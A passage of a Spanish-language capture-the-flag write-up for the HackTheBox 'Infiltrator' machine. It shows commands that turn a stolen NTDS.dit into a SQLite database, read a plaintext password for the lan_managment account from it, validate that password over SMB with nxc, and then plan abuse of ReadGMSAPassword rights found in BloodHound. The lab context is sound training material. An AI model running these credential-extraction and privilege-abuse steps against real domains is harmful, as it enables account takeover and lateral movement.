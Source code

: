 Dado que no logramos extraer ningún tipo de información ni ninguna credencial válida en el `NTDS.dit`. Descubrimos la siguiente herramienta que nos transforma el `NTDS.dit` en un archivo `DB` para abrirlo con `sqlitebrowser`.

```bash
❯ ntdsdotsqlite Active\ Directory/ntds.dit --system registry/SYSTEM -o ntds.db
100%|██████████████████████████████████████████████| 3823/3823 [00:00<00:00, 5123.30it/s]

❯ ls -l ntds.db
.rw-rw-r-- kali kali 136 KB Sat Jan 18 02:38:45 2025  ntds.db

❯ sqlitebrowser ntds.db
```

Al revisar en los diferentes campos, logramos verificar que aparece lo que parecen ser unas credenciales para el usuario `lan_managment@infiltrator.htb`.

<figure><img src="../../.gitbook/assets/imagen (40).png" alt=""><figcaption></figcaption></figure>

Validaremos si estas credenciales siguen siendo válidas para el usuario encontrado. Efectivamente estas credenciales nos sirven correctamente.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'lan_managment' -p 'l@n_M@an!1331'
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\lan_managment:l@n_M@an!1331 
```

### Abusing ReadGMSAPassword Rights

Al revisar nuevamente en `BloodHound`, verificamos que el usuario que disponemos, tiene privilegios de `ReadGMSAPassword` sobre el objeto `infiltrator_svc$@infiltrator.htb`.

<figure><img src="../../.gitbook/assets/3826_vmware_SZ2AxABKSL.png" alt=""><figcaption></figcaption></figure>
